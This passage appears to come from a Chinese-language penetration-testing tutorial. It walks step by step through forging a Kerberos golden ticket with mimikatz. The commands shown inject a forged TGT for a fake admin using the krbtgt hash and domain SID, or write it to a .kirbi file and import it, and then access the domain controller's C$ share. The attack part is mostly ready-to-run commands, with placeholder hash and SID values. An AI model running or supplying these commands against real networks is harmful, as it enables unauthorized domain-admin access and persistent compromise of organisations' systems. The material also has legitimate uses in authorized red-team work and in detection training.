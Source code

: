 ![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

**结果**：
- 清除现有票据，确保伪造票据生效。

#### 4. 伪造TGT票据

##### 方法1：直接注入黄金票据

**命令**：
```cmd
mimikatz.exe "kerberos::golden /domain:abcc.org /sid:S-1-5-21-1234567890-123456789-123456789 /rc4:aabbccddeeff11223344556677889900 /user:fakeadmin /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

**参数说明**：
- `/domain`：域名称（`abcc.org`）
- `/sid`：域SID
- `/rc4`：`krbtgt`的NTLM哈希
- `/user`：伪造的用户名（任意，如`fakeadmin`）
- `/ptt`：直接注入票据到当前会话

**结果**：
- 伪造TGT注入成功，当前会话具备域管理员权限。

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

##### 方法2：生成票据文件并导入

**生成票据**：
```cmd
mimikatz.exe "kerberos::golden /domain:abcc.org /sid:S-1-5-21-1234567890-123456789-123456789 /rc4:aabbccddeeff11223344556677889900 /user:fakeadmin /ticket:test.kirbi" exit
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

**导入票据**：
```cmd
mimikatz.exe "kerberos::ptt test.kirbi" exit
```

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

**结果**：
- 生成`test.kirbi`文件并成功导入，当前会话获得伪造TGT。

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

#### 5. 验证攻击效果

**命令**：
```cmd
dir \\ICBC.abcc.org\c$
```
